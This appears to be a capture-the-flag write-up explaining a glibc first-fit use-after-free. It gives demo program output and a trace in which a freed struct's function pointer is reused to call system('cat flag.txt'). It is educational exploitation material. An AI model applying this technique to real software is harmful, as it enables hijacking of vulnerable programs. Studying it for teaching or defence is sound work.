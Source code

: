 # Uaf1

This exploit is an example of glibc's first-fit algorithm. When we allocate and free 1, the pointer still exists and still points to the same memory region. When we allocate 2, both 2 and 1 point to the same chunk of memory, therefore calling 1's function is the same as calling 2's function.

I've created a small program that illustrates this concept. You can compile and run first-fit.c yourself if you'd like, but the output of a sample run is below.

```
glibc uses a first-fit algorithm to choose where it gets memory from.
If a chunk is free and large enough, malloc will use this chunk.
This can be exploited in a use-after-free situation.

Allocating 8 bytes to A.
Allocating 8 bytes to B.

A: 0x565557557260
B: 0x565557557280

We can copy data to A.
A: 0x565557557260 -> A

Now let's free chunk A.

If we allocate less than or equal to 8 bytes, it well end up here: 0x565557557260.

Allocating 8 bytes to C.
C: 0x565557557260

If we check now, A and C point to the same piece of memory.
(0x565557557260 == 0x565557557260) == True

We can copy data to C.
C: 0x565557557260 -> C

If we reuse the first allocation, it now holds the data from the third allocation.
A: 0x565557557260 -> C
```

What is happening in our program is this:

```
Allocate size of struct uaf for 1; 1->func gets set
1: 0x100
1->func: 0x100 = exec1

Free 1; Memory still exists, is not erased
1: 0x100
1->func: 0x100 = exec1

Allocate size of struct uaf for 2; 2->func gets set
1: 0x100
1->func: 0x100 = exec2
2: 0x100
2->func: 0x100 = exec2

Call 1
1->func = exec2
system("cat flag.txt");
```
